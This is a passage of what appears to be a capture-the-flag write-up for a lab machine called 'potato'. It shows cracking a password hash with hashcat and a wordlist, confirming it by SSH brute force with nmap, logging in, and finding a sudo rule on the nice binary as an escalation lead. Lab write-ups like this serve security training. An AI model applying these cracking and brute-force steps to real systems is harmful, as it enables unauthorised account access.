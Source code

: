 {% code overflow="wrap" %}
```bash
$ cat webadmin_hash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

$ hashcat webadmin_hash /usr/share/wordlists/rockyou.txt --username
<SNIP>
$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:dragon
<SNIP>
```
{% endcode %}

Interestingly enough, performing a BFA against SSH with the default wordlists comes back with the credentials we just found.

{% code overflow="wrap" %}
```bash
$ nmap -p 22 --script ssh-brute potato
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     webadmin:dragon - Valid credentials
|_  Statistics: Performed 2552 guesses in 603 seconds, average tps: 4.2
```
{% endcode %}

## Proof.txt

Logging into SSH and checking its `sudo` permissions reveals that the `nice` binary can be run with elevated permissions with any script located at `/notes` as its argument. Unfortunately, we don't have `write` permissions on the `/notes` directory.

{% code overflow="wrap" %}
```bash
$ ssh webadmin@potato
webadmin@potato's password:
<SNIP>
webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@serv:~$ sudo -l
[sudo] password for webadmin:
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
    
webadmin@serv:~$ ls -ld /notes
drwxr-xr-x 2 root root 4096 Aug  2  2020 /notes
```
{% endcode %}


[^1]: Local File Inclusion
[^2]: Remote Code Execution
[^3]: Local File Inclusion
[^4]: Remote Code Execution
[^5]: Living off the Land
[^6]: Local File Inclusion